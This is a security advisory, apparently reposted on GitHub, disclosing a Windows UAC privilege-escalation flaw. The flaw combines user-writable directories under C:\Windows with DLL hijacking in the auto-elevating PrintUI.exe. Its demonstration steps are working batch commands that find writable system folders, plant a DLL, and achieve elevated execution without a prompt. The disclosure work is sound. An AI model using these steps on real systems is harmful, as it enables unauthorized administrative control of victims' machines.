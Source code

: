 # Microsoft-Windows-UAC-Privilege-Escalation
Microsoft Windows can dupe users into trusting executables with DLL hijacking and privilege escalation issues

Hi @ll,

Microsoft still ships Windows with and lets it create user-writable
directories below the "Windows" directory %SystemRoot%\ -- despite
that, with exception of %SystemRoot%\Temp\, they are all used to
store DATA and SHOULD have been placed below %ProgramData% alias
%SystemDrive%\ProgramData\ instead!

JFTR: %ProgramData% was introduced with Windows Vista more than 15
      (in words: FIFTEEN) years ago, but Microsoft obviously just
      doesn't care to cleanup their mess.

Authenticode signature verification, for example required to color the
UAC prompt yellow (untrusted) or blue (trusted) and as precondition
for the "auto-elevation" (mis)feature of some 63+ applications shipped
with Windows 7 and ALL later versions, doesn't care about the filename
of an executable, but (eventually) evaluates the pathname of the
(application) directory.


Put together these two weaknesses allow to run arbitrary code WITH
administrative rights in several (user-writable) directories below
C:\Windows: in the account created during Windows setup without UAC
prompt, in (unprivileged) standard user accounts with (blue) UAC prompt!

### CVSS 3.0 score: 8.2 (High)
### CVSS 3.0 vector: 3.0/AV:L/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:H


# Demonstration
# ~~~~~~~~~~~~~

1. Log on to an arbitrary unprivileged (standard) user account and start
   the command processor, then run the following command lines to detect
   the user-writable directories below %SystemRoot%\ through creation of
   a hardlink named WRITABLE.EXE and collect their pathnames in the file
   %ProgramData%\WRITABLE.LOG:
   
```
   COPY /Y NUL: "%ProgramData%\WRITABLE.LOG" && (
   DIR "%SystemRoot%" /A:D /B /S 1>"%ProgramData%\WRITABLE.TMP" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO @(
   MKLINK /H "%~?\WRITABLE.EXE" "%ProgramData%\WRITABLE.LOG" 2>NUL: && 1>>"%ProgramData%\WRITABLE.LOG" ECHO %~?))
   TYPE "%ProgramData%\WRITABLE.LOG")
```   

   On fresh installations of Windows 10 2004/20H1/20H2 for AMD64 alias
   x64 processors this yields the following pathnames:

```
   C:\Windows\Tasks
   C:\Windows\Temp
   C:\Windows\tracing
   C:\Windows\Registration\CRMLog
   C:\Windows\System32\FxsTmp
   C:\Windows\System32\Tasks
   C:\Windows\System32\Com\dmp
   C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
   C:\Windows\System32\spool\PRINTERS
   C:\Windows\System32\spool\SERVERS
   C:\Windows\System32\spool\drivers\color
   C:\Windows\SysWOW64\FxsTmp
   C:\Windows\SysWOW64\Tasks
   C:\Windows\SysWOW64\Com\dmp
```   

   On installations which were upgraded to (any version of) Windows 10,
   the following additional pathname is typically listed:
   
```
   C:\Windows\System32\Tasks_Migrated
```   

   On installations which have been used for some time, the following
   additional pathnames are typically listed:
   
```
   C:\Windows\debug\WIA
   C:\Windows\PLA\Reports
   C:\Windows\PLA\Rules
   C:\Windows\PLA\Templates
   C:\Windows\PLA\Reports\de-DE
   C:\Windows\PLA\Reports\en-GB
   C:\Windows\PLA\Reports\en-US
   ...
   C:\Windows\PLA\Reports\ru-RU
   C:\Windows\PLA\Rules\de-DE
   C:\Windows\PLA\Rules\en-GB
   C:\Windows\PLA\Rules\en-US
   ...
   C:\Windows\PLA\Rules\ru-RU
   C:\Windows\System32\catroot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}
   C:\Windows\System32\LogFiles\WMI
```

2. Let's see whether the hardlinks WRITABLE.EXE can be (ab)used: copy an
   arbitrary executable to all of them and execute it.

   JFTR: PrintUI.exe is one of the 63+ applications which have UAC auto-
         elevation enabled.
       
```
   SETLOCAL ENABLEDELAYEDEXPANSION
   COPY /Y "%ProgramData%\WRITABLE.LOG" "%ProgramData%\WRITABLE.TMP" && (
   COPY /Y "%SystemRoot%\System32\PrintUI.exe" "%ProgramData%\WRITABLE.LOG" && (
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!)))
```   

   In unprivileged (standard) user accounts this triggers an UAC prompt
   for each file executed, some yellow, showing "Publisher: Unknown",
   some blue showing "Verified Publisher: Microsoft Windows".

   After giving consent to the UAC prompt a dialog box showing usage
   instructions for PrintUI.dll is displayed, indicating that (the copy
   of) PrintUI.exe loads PrintUI.dll:
   
```
   | Usage: rundll32 printui.dll,PrintUIEntry [options] [@commandfile]
```   

   JFTR: since PrintUI.exe runs elevated, PrintUI.dll runs elevated too!


3. Let's verify the Authenticode signature of the copy of PrintUI.exe:

```
   SignTool.exe VERIFY /A /V "%ProgramData%\WRITABLE.LOG"

   | Verifying: C:\ProgramData\WRITABLE.LOG
   | File is signed in catalog: C:\Windows\system32\CatRoot\{F750E6C3-38EE-11D1-85E5-
00C04FC295EE}\ntexe.cat
   ...
   | Successfully verified: C:\ProgramData\WRITABLE.LOG
   ...
```

   Authenticode doesn't care about the path/filename of signed executables,
   even for files with detached signatures, although the *.CAT files used
   to distribute detached digital signatures can store the filename!


4. Let's see whether PrintUI.exe follows the guidance given by the MSRC
   (Microsoft Security Response Center) in the almost 7 year old blog post
   <https://blogs.technet.microsoft.com/srd/2014/05/13/load-library-safely/>.
   the more than 10 year old security advisory
   <https://technet.microsoft.com/en-us/library/2269637.aspx>, or the nearly
   10 year old MSKB articles <https://support.microsoft.com/en-us/kb/2389418>
   and <https://support.microsoft.com/en-us/kb/2533623>: copy ShUnimpl.dll
   as PrintUI.dll next to the copy of PrintUI.exe and execute the latter.

   JFTR: ShUnimpl.dll is the graveyard for obsolete "shell" functions; its
         _DllMainCRTStartup() entry point function returns FALSE to disable
         their use, lets the module loader fail with NTSTATUS 0xC0000142
         alias STATUS_DLL_INIT_FAILED, and lets LoadLibrary() fail with the
         Win32 error 1114 alias ERROR_DLL_INIT_FAILED

```
   COPY "%SystemRoot%\System32\ShUnimpl.dll" "%ProgramData%\PrintUI.dll"
   RENAME "%ProgramData%\WRITABLE.LOG" PrintUI.exe
   START "" /WAIT "%ProgramData%\PrintUI.exe"
   CERTUTIL.exe /ERROR %ERRORLEVEL%
```

   OUCH: (the copy of) PrintUI.exe loads an arbitrary PrintUI.dll from its
         application directory instead of %SystemRoot%\System32\PrintUI.dll

   The Common Weaknesses and Exposures classifies such misbehavior, which
   results in arbitrary code execution (here with escalation of privilege),
   as
   - CWE-426: Untrusted Search Path
     <https://cwe.mitre.org/data/definitions/426.html>
   - CWE-427: Uncontrolled Search Path Element
     <https://cwe.mitre.org/data/definitions/427.html>

   The Common Attack Pattern Enumeration and Classification lists it as
   - CAPEC-471: Search Order Hijacking
     <https://capec.mitre.org/data/definitions/471.html>

   JFTR: (un)fortunately PrintUI.dll is not the only DLL that PrintUI.exe
         loads from an unsafe path, and (un)fortunately PrintUI.exe is not
         the only auto-elevating application which loads DLLs from unsafe
         paths!

   A really big "Hooray!" to Microsoft's sloppy, careless and clueless
   developers as well as their sound asleep quality^Wmiserability assurance!


5. Let's see whether UAC auto-elevation is also possible in at least one
   of the user-writable directories: log on to the UAC-controlled user
   account created during Windows setup, start an UNELEVATED (unprivileged)
   command prompt and run the following command lines:

```
   SETLOCAL ENABLEDELAYEDEXPANSION
   FOR /F "Delims= UseBackQ" %? IN ("%ProgramData%\WRITABLE.TMP") DO (
   MKLINK /H "%~?\PrintUI.dll" "%ProgramData%\PrintUI.dll" && (
   START "" /WAIT "%~?\WRITABLE.EXE"
   ECHO !ERRORLEVEL!))

```

   BINGO: GAME OVER!

   UAC performs auto-elevation at least in the directories
   C:\Windows\System32\CatRoot2\{F750E6C3-38EE-11D1-85E5-00C04FC295EE}\
   and C:\Windows\System32\Tasks_Migrated\; a copy of PrintUI.exe run in
   these directories loads/executes an arbitrary PrintUI.dll placed there
   too, with ADMINISTRATIVE privileges, without UAC prompt.

   JFTR: even without UAC auto-elevation, this beginner's error present in
         PrintUI.exe (really: almost all applications shipped with Windows)
         allows to fool Jane and Joe Average who typically give consent to a
         blue UAC prompt which shows "Certified Publisher: Microsoft Windows".

